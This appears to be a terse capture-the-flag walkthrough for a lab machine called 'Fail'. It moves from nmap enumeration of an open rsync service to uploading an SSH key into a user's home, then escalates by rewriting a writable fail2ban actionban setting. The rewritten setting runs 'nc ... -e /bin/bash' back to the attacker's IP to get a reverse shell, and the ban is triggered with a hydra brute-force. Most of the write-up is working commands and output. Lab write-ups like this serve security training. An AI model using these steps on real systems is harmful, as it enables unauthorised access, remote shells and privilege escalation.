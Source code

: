 # Fail
# date 6/8/20023
# ip 192.168.230.126

rsync open to upload > uploaded ssh > login by ssh > writable /etc/fail2ban >edited > conf command to ban user > got rev shell

# nmap
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
873/tcp open  rsync   (protocol version 31)


└─$ nmap -sV --script "rsync-list-modules" -p 873 192.168.230.126
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  fox                 fox home


└─$ rsync -av --list-only rsync://192.168.230.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 09:21:59 .
lrwxrwxrwx              9 2020/12/03 15:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 00:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 00:12:36 .bashrc
-rw-r--r--            807 2019/04/18 00:12:36 .profile

└─$ rsync -av  rsync://192.168.230.126/fox /tmp/fox

# exploitation
upload ssh

└─$ rsync -av /tmp/.ssh rsync://fox@192.168.230.126/fox

└─$ ssh fox@192.168.230.126 -i ssh                         


# priv esc
find /etc/ -type f -writable 2>/dev/null



cd /etc/fail2ban/action.d/


If we look at /etc/fail2ban/action.d/iptables-multiport.conf, there is an actionban variable which is the action being performed once the IPS notices malicious activity done by the IP address in subject.
At the moment, the action seems to be blacklisting the IP address temporarily.



/etc/fail2ban/action.d/iptables-multiport.conf

edit this 
actionban = nc 192.168.45.206 80 -e /bin/bash                

└─$ nc -lvnp 80             


Finally, we have to trigger the ban by manually sshing to the target host multiple times, or automate the process using hydra.

└─$ hydra -l banme -P /usr/share/wordlists/rockyou.txt 192.168.230.126 ssh -t 10 -v


